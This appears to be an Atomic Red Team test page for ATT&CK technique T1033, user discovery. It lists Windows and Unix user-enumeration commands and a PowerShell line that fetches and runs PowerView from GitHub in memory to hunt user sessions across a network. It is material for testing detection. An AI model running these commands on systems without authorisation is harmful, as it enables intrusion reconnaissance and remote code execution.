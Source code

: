 # T1033 - System Owner/User Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1033)
<blockquote>Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is actively using the system. They may do this, for example, by retrieving account usernames or by using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). The information may be collected in a number of different ways using other Discovery techniques, because user and username details are prevalent throughout a system and include running process ownership, file/directory ownership, session information, and system logs. Adversaries may use the information from [System Owner/User Discovery](https://attack.mitre.org/techniques/T1033) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Utilities and commands that acquire this information include <code>whoami</code>. In Mac and Linux, the currently logged in user can be identified with <code>w</code> and <code>who</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Owner/User Discovery](#atomic-test-1---system-owneruser-discovery)

- [Atomic Test #2 - System Owner/User Discovery](#atomic-test-2---system-owneruser-discovery)

- [Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)](#atomic-test-3---find-computers-where-user-has-session---stealth-mode-powerview)


<br/>

## Atomic Test #1 - System Owner/User Discovery
Identify System owner or users on an endpoint.

Upon successful execution, cmd.exe will spawn multiple commands against a target host to identify usernames. Output will be via stdout. 
Additionally, two files will be written to disk - computers.txt and usernames.txt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of remote computer | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd.exe /C whoami
wmic useraccount get /ALL
quser /SERVER:"#{computer_name}"
quser
qwinsta.exe /server:#{computer_name}
qwinsta.exe
for /F "tokens=1,2" %i in ('qwinsta /server:#{computer_name} ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
@FOR /F %n in (computers.txt) DO @FOR /F "tokens=1,2" %i in ('qwinsta /server:%n ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
```






<br/>
<br/>

## Atomic Test #2 - System Owner/User Discovery
Identify System owner or users on an endpoint

Upon successful execution, sh will stdout list of usernames.

**Supported Platforms:** Linux, macOS





#### Attack Commands: Run with `sh`! 


```sh
users
w
who
```






<br/>
<br/>

## Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)
Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Invoke-UserHunter -Stealth -Verbose
```






<br/>
